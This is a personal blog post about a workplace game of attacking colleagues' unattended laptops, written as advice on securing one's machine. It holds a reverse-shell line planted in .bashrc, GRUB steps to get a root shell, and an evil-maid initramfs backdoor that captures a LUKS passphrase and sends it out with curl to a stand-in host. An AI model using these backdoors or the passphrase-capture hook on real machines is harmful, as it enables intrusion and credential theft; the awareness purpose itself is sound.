 ```yaml
---
layout: post
title: French Croissant - or why you need to lock your computer
---
```


Last year the first day of my internship I was given a computer and ask to install and secure it for two days. After that delay anyone can try to attack and compromise my machine, and if so I was welcome to buy some "French Croissants" to the team while the attacker explain his method to get access into your computer the next morning.
There are some techniques you need to be aware of when you're securing your machine, the list below is not exhaustive.

## Open session
When your colleague leave their computer without locking their session, it's time to go on their laptop and interact with it. In this scenario you can :
  - send an email to the team if he was logged into his mail account
  {% highlight plain%}
  To: team@company.com
  Subject: Croissant for all tomorrow
  {% endhighlight %}

  - if he was using Linux, you may want to keep a simple backdoor in order to do a privilege escalation and become a root user, the easiest way to achieve is to backdoor the .bashrc with a reverse-shell
  {% highlight bash%}
  ncat 192.168.1.2 4444 -e /bin/bash 2> /dev/null &
  {% endhighlight %}

## Written password
Maybe the most unskilled scenario, sometimes the user will write some interesting informations onto a paper sheet or a post-it, and leave it on their desktop. You can just grab the credential.    
![alt text]({{ site.baseurl }}/images/security-password-postit.jpg "Logo Title Text 1")

## Outdated components
The computer has to be updated, if your colleague doesn't do the regular patches you might be able to take advantages of this. Commonly you can target the Operating system e.g:Windows XP with MS08-067, or the Browser (Chrome/Firefox etc)

## Guest account
Sometimes the guest account is enable and allows you to get further access into the machine.
[LightDM (Ubuntu 16.04/16.10) - Guest Account Local Privilege Escalation](https://www.exploit-db.com/exploits/41923/)

## Debug components
Most of the times you can acces the debug application on the port 80 on the internal network if there is no filtering. Depending of the application you look for :
  - Common vulnerabilites (OWASP top 10)
  - Debug interface (Python Flask)

## USB Live ISO
When there is no bios password, it's easy to compromise the computer by booting with a Live USB / Live CD and adding the backdoor.

## Grub - root access
Even if there is a bios password you still need to secure your Grub (boot-manager), otherwise anyone can edit it in order to start a root shell.

{% highlight bash%}
Press [SHIFT KEY] to get into grub2
Press [E] to edit the command line
Append init=/bin/sh
{% endhighlight %}


## Encrypted Hard Drive
Mounting boot partition (not encrypted)
{% highlight bash%}
fdisk -l /dev/sda
mkdir /mnt/sda1
mount /dev/sda1 /mnt/sda1
{% endhighlight %}

Extracting initramfs-linux
{% highlight bash%}
cp /dev/sda1/initramfs-linux.img /tmp/initramfs-linux.img.gz
gunzip initramfs-linux.img.gz
cpio -i < initramfs-linux.img
{% endhighlight %}


Adding the backdoor and packaging back to a .img
{% highlight bash%}
vim /hooks/encrypt

backdoor line 78
echo -n "Enter passphrase for /dev/sda3: "
read -s mypass
echo -n $mypass | cryptsetup open --key-file - --type luks /dev/sda3 mymap
mkdir myfolder
mount /dev/mapper/mymap myfolder
echo "curl example.com/LUKS/$mypass 2> /dev/null" >> myfolder/home/user/.bashrc
echo "curl example.com/LUKS/$mypass 2> /dev/null" >> myfolder/home/root/.bashrc
umount myfolder
rmdir myfolder
cryptsetup close mymap


find . | cpio -o -H newc | gzip > ../test.img  
{% endhighlight %}
